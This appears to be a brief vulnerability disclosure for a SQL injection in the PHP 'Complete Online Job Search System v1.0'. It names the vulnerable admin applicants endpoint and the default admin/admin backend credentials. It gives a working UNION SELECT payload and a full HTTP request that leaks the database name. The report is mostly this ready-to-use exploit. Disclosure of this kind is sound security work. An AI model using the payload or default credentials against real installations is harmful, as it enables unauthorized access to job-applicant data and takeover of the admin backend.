 # Complete Online Job Search System v1.0 has SQL injection

BUG_Author：朝阳

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/applicants/index.php?view=view&id=

Vulnerability location: /eris/admin/applicants/index.php?view=view&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/applicants/index.php?view=view&id=-2%27%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ // Leak place ---> id

```sql
GET /eris/admin/applicants/index.php?view=view&id=-2%27%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849174-963d07c5-d498-446e-b8e5-b834c6c1c4f4.png)


![image](https://user-images.githubusercontent.com/54017627/170849170-e85f655d-3180-4a60-abac-0f26005b0093.png)
